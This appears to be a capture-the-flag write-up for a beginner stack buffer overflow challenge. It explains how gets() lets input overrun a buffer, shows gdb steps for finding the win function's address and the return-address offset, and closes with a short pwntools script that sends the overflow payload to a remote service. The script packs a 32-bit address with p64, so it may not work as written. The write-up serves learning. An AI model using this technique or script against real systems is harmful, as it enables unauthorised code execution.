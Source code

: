 In this challenge we are supposed to use a buffer overflow to overwrite the return address and let it return to the win function. The first thing I did was looking at the source code.

Here we could see the function "vuln" that uses the dangerous function gets. Gets does not check if our input exceeds the buffer size. With that we can create a buffer overflow. After the gets Function the function "get_return_address()" is called. So we basically just need to supply enough characters until we hit the return address.

Now we can open the binary in gdb and examine the function addresses with the command:
`info function`
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/a544dd2c-56e8-416b-a763-9f76a9f3eda2)

We can see that the address of the win function is 0x080491f6. After that I just disassembled the get_return_address function and set a breakpoint at the `mov eax, DWORD PTR [ebp+0x4]` instruction. Now i just supply a couple of 'AAAA' as our input and examined the stack with `x/20wx $esp`. The return address is placed in `DWORD PTR [ebp+0x4] (0xffffd0cc)`. Now we can just check how many char's as padding are needed to be supplied and then we can overwrite the return address.

I wrote a simple and shitty python script to do that for me and get the flag:

```
import os
import sys
from pwn import *

payload = b'A' * 44

payload += p64(0x080491f6)

p = remote(#HOSTADDRESS, #PORTNUMBER)
p.recvuntil('Please enter your string:')
p.sendline(payload)
p.interactive()
```
